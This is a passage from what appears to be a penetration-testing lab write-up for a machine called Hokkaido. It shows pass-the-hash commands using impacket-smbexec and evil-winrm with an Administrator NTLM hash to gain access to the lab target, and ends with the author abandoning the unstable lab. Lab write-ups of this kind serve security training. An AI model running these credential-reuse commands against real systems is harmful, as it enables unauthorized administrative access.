We then can use this hash to connect to the target as Administrator using any number of tools. With impacket-smbexec, the command is: `impacket-smbexec -hashes aad3b435b51404eeaad3b435b51404ee:d752482897d54e239376fddb2a2109e4 Administrator@192.168.157.40`

![Hokkaido12.png](/assets/images/Hokkaido/Hokkaido12.png){: .center-aligned width="600px"}

The command is `evil-winrm -i 192.168.157.40 -u Administrator -H d752482897d54e239376fddb2a2109e4`, with the hash the second part of the hash given in the screenshot above. 

![Hokkaido13.png](/assets/images/Hokkaido/Hokkaido13.png){: .center-aligned width="600px"}

And so on. Either way, this lab has crashed many times, and I'm done with it at this point. 